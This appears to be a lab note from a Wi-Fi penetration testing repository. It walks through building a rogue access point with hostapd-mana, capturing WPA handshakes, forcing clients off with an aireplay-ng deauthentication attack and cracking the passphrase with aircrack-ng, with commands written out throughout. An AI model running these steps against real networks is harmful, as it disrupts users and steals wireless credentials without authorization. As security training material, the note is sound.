






# Rogue AP

Multiple APs that transmit the same SSID. The client/station will choose the one with the strongest signal. An attacker may advertise an AP with the same SSID except that the AP is a very bad AP controlled by the attacker.

Even if the pre-shared key is unknown, the attacker can still aquire the first two messages in the four-way handshake. Other details might make this a bit more complicated like sharing the same encryptions attributes as well.

Create an AP with DEVICE.

Demonstrate how to decloak a hidden AP's SSID

* Run [setup](../setup.md) first
* Three terminals are needed
* One client needs to be associated with AP
* Need two ADAPTERS - connect both at the start
    * First to be the rogue AP
    * Second to be the run deauth attack against first



## Build a Rogue AP

hostapd is a user space daemon for access point and authentication servers. It implements IEEE 802.11 access point management, IEEE 802.1X/WPA/WPA2/EAP Authenticators, RADIUS client, EAP server, and RADIUS authentication server. The current version supports Linux (Host AP, madwifi, mac80211-based drivers) and FreeBSD (net80211).

Can crack WPA and WPA2. Not WPA3. Below WPA3 means WPA and WPA2, not WPA3.

### Install Hostapd-mana

```bash
# [Terminal One]
sudo apt install hostapd-mana

# Create a config file - first adapter is the rogue AP
vi hostapd.conf
interface=wlan0
ssid=rogue
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=informix
wpa_pairwise=TKIP CCMP
rsn_pairwise=TKIP CCMP
mana_wpaout=/home/kali/informix.hccapx

# Start the rogue AP
sudo hostapd-mana hostapd.conf
```


* Connect client to the rogue AP w/correct PSK to see association messages



```bash
# [Terminal Two]
# Set interface to monitor mode
sudo airmon-ng start $INTERFACE2 1

# Start monitoring to collect data
sudo airodump-ng -c 1 --bssid $INTERFACEMAC -w $TAG $INTERFACE2
```


```bash
# [Terminal Three]
sudo aireplay-ng --deauth 0 -a $INTERFACEMAC $INTERFACE2

# Watch for successful fourway handshake capture message

# Stop everything
```



```bash
# Crack the hostapd capture file
aircrack-ng -0 -e rogue -w $WORDLIST informix.hccapx
# OR the normal PCAP file
aircrack-ng -0 -e rogue -w $WORDLIST $PCAP
```



## References

* [hostapd](https://w1.fi/hostapd/)
* [hostapd-mana](https://github.com/sensepost/hostapd-mana/)
* [hostapd-mana config](https://github.com/sensepost/hostapd-mana/blob/master/hostapd/hostapd.conf)
